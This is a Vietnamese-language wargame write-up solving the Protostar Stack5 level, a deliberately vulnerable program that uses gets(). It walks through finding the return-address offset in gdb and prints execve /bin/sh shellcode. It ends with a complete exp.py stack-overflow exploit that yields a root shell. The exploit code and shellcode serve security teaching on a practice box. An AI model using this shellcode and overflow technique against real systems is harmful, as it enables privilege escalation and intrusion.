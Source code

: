 # STACK FIVE

## About

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

  * At this point in time, it might be easier to use someone elses shellcode
  
  * If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
  
  * remove the int3s once your shellcode is done.

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Solutions

`STACK FIVE` là thử thách không có hàm win(), đọc giới thiệu ta có thể thấy thử thách muốn chúng ta tìm hiểu về Shellcode và học cách khai thác ret2shellcode.

Shellcode là gì ?

```
Shellcode còn được gọi là bytecode, tạm dịch là mã máy. Chúng ta đều biết mã máy là thứ ngôn ngữ duy nhất mà bộ vi xử lí có thể hiểu được. Tất cả các chương trình viết bằng bất kì ngôn ngữ nào đều phải được biên dịch sang mã máy trước khi máy tính có thể chạy được chương trình đó. Khác với các chương trình này, shellcode được thể hiện như một nhóm các mã máy, do đó máy tính có thể hiểu và thực thi trực tiếp shellcode mà không cần phải trải qua bất kì công đoạn biên dịch nào cả.
```

Với người mới tìm hiểu và chưa có kiến thức nhiều về mã máy, thử thách gợi ý sẽ tốt hơn khi tại thời điểm này sử dụng `shellcode` của ai đó.

Tôi lấy nguồn từ trên mạng: <https://www.exploit-db.com/exploits/43716>

```
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Tiếp theo là tìm độ dài chuỗi có thể ghi đè eip.

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 64 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4 + "G" * 4 + "H" * 4' > txt
root@protostar:/opt/protostar/bin# gdb -q ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) r < txt
Starting program: /opt/protostar/bin/stack5 < txt

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()       <-- EEEE Tiếp tục là 76
(gdb)
```
Vậy payload của chúng ta bây giờ sẽ trông như này:

`payload = "A" * 76 + return address + "\x90" * 100 + shellcode`

Các bạn nên đọc link tài liệu ở phần Documents để hiểu rõ hơn về `shellcode` và `"\x90" NOPs`.

Stack sẽ trông như sau khi bị ghi đè (Bố cục địa chỉ có thể khác trên máy bạn):

```
(gdb) x/100wx $esp
0xbffffc10:     0xbffffc20      0xb7ec6165      0xbffffc28      0xb7eada75
0xbffffc20:     0x41414141      0x41414141      0x41414141      0x41414141      <-- padding bắt đầu từ 0x41414141.
0xbffffc30:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc40:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc50:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc60:     0x41414141      0x41414141      0x41414141      0xxxxxxxxx       <-- Vị trí của Return address | Ở đây được tính toán = 0xbffffc6c + 0x50 = 0xbffffcbc để trả về vào giữa dãy NOPs
0xbffffc70:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffc80:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffc90:     0x90909090      0x90909090      0x90909090      0x90909090      <-- sau ret sẽ là chuỗi '\x90' vì sẽ có sự biến động khi chạy và debug, nên sẽ không thể tính chính xác vị trí của shellcode mà phải ước lượng và trượt vào nó qua NOPs để đến shell.
0xbffffca0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcb0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcc0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcd0:     0x90909090      0x50c031cc      0x732f2f68      0x622f6868        <-- Shellcode start: 0xbffffcd4, sau chuỗi NOPs sẽ là shellcode do hệ thống sẽ bỏ qua NOPs và tiếp tục thực thi.
0xbffffce0:     0xe3896e69      0xc289c189      0x80cd0bb0      0xcd40c031
0xbffffcf0:     0x08040080      0x00000001      0xbffffd14      0x080483f0
0xbffffd00:     0x080483e0      0xb7ff1040      0xbffffd0c      0xb7fff8f8
0xbffffd10:     0x00000001      0xbffffe20      0x00000000      0xbffffe3a
0xbffffd20:     0xbffffe4a      0xbffffe5e      0xbffffe80      0xbffffe93
0xbffffd30:     0xbffffe9d      0xbffffea9      0xbffffeeb      0xbffffeff
0xbffffd40:     0xbfffff0e      0xbfffff25      0xbfffff36      0xbfffff3f
0xbffffd50:     0xbfffff8c      0xbfffff97      0xbfffff9f      0xbfffffac
0xbffffd60:     0x00000000      0x00000020      0xb7fe2414      0x00000021
0xbffffd70:     0xb7fe2000      0x00000010      0x0f8bfbff      0x00000006
0xbffffd80:     0x00001000      0x00000011      0x00000064      0x00000003
0xbffffd90:     0x08048034      0x00000004      0x00000020      0x00000005
```
Kết quả dừng trước int3 '\xcc' -> bỏ int3 thì shellcode được thực thi.

```
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffffcd5 in ?? ()
(gdb)
```
Từ bài này chúng ta sẽ bắt đầu viết file payload exp.py 

File exp.py

``` 
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = "A" * 76 + "\xbc\xfc\xff\xbf" + "\x90" * 100 + shellcode
print payload
```

Bước khai thác cuối cùng

```exp.py
root@protostar:/opt/protostar/bin$ $(python exp.py ; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami 
root
ls
final0	final2	 format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1	format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6
```

## Documents

<https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html>

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>


